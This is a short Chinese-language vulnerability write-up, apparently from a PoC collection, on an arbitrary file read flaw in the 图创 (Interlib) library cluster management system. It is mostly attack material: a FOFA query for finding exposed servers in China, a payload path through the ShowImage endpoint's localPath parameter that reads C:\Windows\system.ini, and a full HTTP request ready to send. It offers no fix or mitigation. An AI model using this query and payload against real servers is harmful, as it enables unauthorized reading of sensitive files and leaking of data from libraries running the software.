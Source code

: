 ## 图创图书馆集群管理系统存在任意文件读取漏洞

## 漏洞描述

广州图创计算机软件开发有限公司是集产品研发、应用集成、客户服务为一体的高新技术企业，主要目标是为图书馆行业用户提供高质量的应用软件系统设计、集成和维护服务，利用漏洞，攻击者可以读取 Windows 或 Linux 服务器上的任意文件。利用文件读取漏洞，攻击者可以获取到系统文件信息，从而造成敏感信息泄露。

## 漏洞影响

> 图创图书馆集群管理系统

## FOFA

> "广州图创" && country="CN" && body="/interlib/common/"

## 漏洞复现

漏洞payload：

```
/interlib/report/ShowImage?localPath=C:\Windows\system.ini
```

![640](resource/图创图书馆集群管理系统/640.png)

```
GET /interlib/report/ShowImage?localPath=C:\Windows\system.ini HTTP/1.1
Host: XXX.XXX.XXX.XXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://xxx.xxx.xxx.xxx
Connection: close
Cookie: JSESSIONID=657073E5FCD2C4BA12239182D01B1993
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```